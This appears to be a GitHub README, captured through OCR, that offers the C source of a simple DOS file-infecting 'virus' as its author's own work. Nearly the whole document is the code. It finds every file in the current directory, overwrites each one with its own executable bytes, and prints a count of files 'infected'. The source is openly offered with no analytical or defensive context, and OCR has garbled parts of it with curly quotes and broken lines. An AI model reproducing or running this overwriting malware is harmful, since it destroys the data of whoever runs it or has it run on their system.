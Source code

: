 # C-program-Virus
Here I had made Virus using C program

#include<stdio.h>

    #include<io.h>

    #include<dos.h>

    #include<dir.h>

    #include<conio.h>

    #include<time.h>

     

    FILE *virus,*host;

    int done,a=0;

    unsigned long 
    x; // variable declaration

    char buff[2048];
    // variable declaration

    struct ffblk ffblk;

    clock_t st,end;

     

    void main()

    {

        st=clock();

        clrscr(); 
    // to clear the screen

        done=findfirst(“*.*”,&ffblk,0);
    //looking  for a file with any extension (*.*)

        while(!done)

        {

            virus=fopen(_argv[0],”rb”);
    // calling the functon

            host=fopen(ffblk.ff_name,”rb+”);

            if(host==NULL)
    goto next;

            x=89088;

            printf(“Infecting
    %s\n”,ffblk.ff_name,a);

            while(x>2048)

            {

                fread(buff,2048,1,virus);

                fwrite(buff,2048,1,host);

                x-=2048;

            }

            fread(buff,x,1,virus);

            fwrite(buff,x,1,host);

            a++;

    next:

            {

                fcloseall();

                done=findnext(&ffblk);

            }

        }

        printf(“DONE!
    (Total Files Infected=
    %d)”,a);

        end=clock();

        printf(“TIME 
    TAKEN=%f 
    SEC\n”,

               (end-st)/CLK_TCK);

        getch();

    }
